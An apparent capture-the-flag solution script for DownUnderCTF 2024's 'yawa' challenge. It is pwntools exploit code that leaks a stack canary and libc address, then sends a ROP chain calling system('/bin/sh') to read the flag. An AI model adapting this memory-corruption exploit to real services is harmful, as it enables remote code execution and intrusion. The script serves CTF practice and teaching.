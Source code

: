 
#alt-solution
```
#!/usr/bin/env python3

from pwn import *
import struct

#context.log_level = "debug"
elf = ELF("./yawa_patched", checksec=False)
context.binary = elf

libc = ELF("./libc.so.6", checksec=False)

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("2024.ductf.dev", 30010)

p.sendlineafter(b"> ", b"1") # leak canary
p.send(b"A" * 89)
p.sendlineafter(b"> ", b"2")
p.recv(88 + 7 + 1)
canary = b"\x00" + p.recv(7)
log.success(f"canary: {canary.hex()}")

MAIN_RETURN_ADDRESS = 0x29d90 # where, in libc.so.6, main should return to

p.sendlineafter(b"> ", b"1") # leak return address
p.send(b"A" * 0x68)
p.sendlineafter(b"> ", b"2")
p.recv(0x68 + 7)
leak = struct.unpack("<Q", p.recv(6) + b"\x00\x00")[0]
libc.address = leak - MAIN_RETURN_ADDRESS
log.success(f"libc: {hex(libc.address)}")

p.sendlineafter(b"> ", b"1") # set return address to system("/bin/sh")
rop = ROP(libc)
rop.raw(b"A" * 88)
rop.raw(canary)
rop.raw(p64(0)) # saved rbp
rop.rdi = p64(next(libc.search(b"/bin/sh\x00")))
rop.raw(p64(rop.find_gadget(['ret']).address)) # stack aligning ret
rop.call("system")
p.send(rop.chain())

p.sendlineafter(b"> ", b"3") # return from main

p.sendline(b"cat flag.txt")

print(p.readline().decode()) # DUCTF{Hello,AAAAAAAAAAAAAAAAAAAAAAAAA}
```